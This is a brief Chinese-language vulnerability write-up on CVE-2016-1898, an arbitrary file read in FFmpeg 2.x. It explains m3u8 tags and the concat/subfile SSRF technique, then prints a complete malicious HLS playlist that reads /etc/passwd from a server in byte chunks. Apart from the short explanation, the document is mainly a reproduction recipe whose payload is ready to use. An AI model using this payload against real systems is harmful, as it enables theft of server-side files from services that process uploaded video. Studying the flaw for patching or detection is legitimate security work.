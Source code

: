 （CVE-2016-1898）Ffmpeg 任意文件读取漏洞
========================================

一、漏洞简介
------------

CVE-2016-1898可以读取文件任意行

-   \#EXTM3U 标签是m3u8的文件头，开头必须要这一行

-   \#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒

-   \#EXT-X-VERSION:2 该标签可有可无

-   \#EXTINF:6, 表示该一段TS流文件的长度

-   \#EXT-X-ENDLIST 这个相当于文件结束符

二、漏洞影响
------------

FFmpeg 2.x

三、复现过程
------------

FFmpeg 2.x版本允许攻击者通过服务器端请求伪造(SSRF：Server-Side Request
Forgery)
恶意远程窃取服务器端本地文件，由于ffmpeg的hls没有进行对file域协议进行有效限制，导致攻击者可通过构造hls切片索引文件以及ffmpeg对subfile的支持(https://www.0-sec.org/ffmpeg-protocols.html\#subfile
)来恶意远程窃取服务器端本地文件/etc/passwd，所构造的恶意视频文件如下所示：

    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
    #EXT-X-ENDLIST
